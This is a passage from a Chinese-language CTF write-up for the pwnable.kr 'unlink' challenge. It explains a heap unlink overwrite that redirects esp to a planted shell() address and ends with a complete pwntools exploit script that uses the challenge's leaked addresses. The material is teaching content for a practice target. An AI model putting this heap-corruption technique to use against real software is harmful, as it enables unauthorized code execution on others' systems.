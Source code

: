 这样就很清晰了，我们可以通过影响 `esp` 来影响返回地址，这就需要我们控制 `ecx`。控制 `ecx`，也就是控制 `[ebp-0x4]`。

那我们最终肯定是要让 `esp = shell_addr`，为了产生这个 `shell_addr`，首先要把 `shell()` 写入堆上的某个安全（不会被修改）的地方，显然 `A->buf` 开头是非常理想的位置。

此时有 `shell_addr = A+0x8`（两个指针 8 字节），那就要让 `esp = ecx-0x4 = A+0x8`，得 `ecx = A+0xc`。

这需要 `[ebp-0x4] = A+0xc`，这就到了 `unlink` 出场的时候了。我们设置 `B->bk` 为 `ebp-0x4`，`B->fd` 为 `A+0xc`，按照前面说的原理就能实现覆盖（注：此时 `A->buf[4:8]` 被修改，这不会有影响），此时堆长这样（每块 4 字节）：

```
 ---------
| A->fd   |
 ---------
| A->bk   |
 ---------
| shell() | // A->buf[0:4]
 ---------
|         | // A->buf[4:8]
 ---------
| A+0xc   | // B->fd
 ---------
| ebp-0x4 | // B->bk
 ---------
| B->buf  |
  ...
```

问题来了：

1. 上面的 `A` 是 A 的栈地址还是 A 所指对象的堆地址？
2. 如何得到 `ebp-0x4`？

第一个问题很容易，我们最终需要获取的内容是 `shell()`，这个东西被我们放在了 A 所指的 OBJ 对象里，所以我们去拿 `A+0x8` 很明显是指 A 的堆地址，也就是 `heap address leak`。

第二个问题，题目给的 `stack_leak` 我们似乎还没有用，怎么用呢？因为我们需要用 A 在栈上的地址找到 `ebp-0x4` 的值，所以计算一下两者的偏移量即可。在汇编代码中可以找到 A,B,C 分别位于 `ebp-0x14, ebp-0xc, ebp-0x10` 的位置，那就可以推出 `ebp-0x4 = (ebp-0x14) + 0x10 = stack address leak + 0x10`。

最终 payload：

```python
from pwn import *

p = ssh(host='pwnable.kr', port=2222, user='unlink', password='guest').process('./unlink')

p.recvuntil('stack address leak:')
stack_leak = int(p.recv(10), 16)
p.recvuntil('heap address leak:')
heap_leak = int(p.recv(9), 16)

shell_addr = 0x80484eb

payload = p32(shell_addr) + 'a'*12 + p32(heap_leak+0xc) + p32(stack_leak+0x10)
p.send(payload)

p.interactive()
```
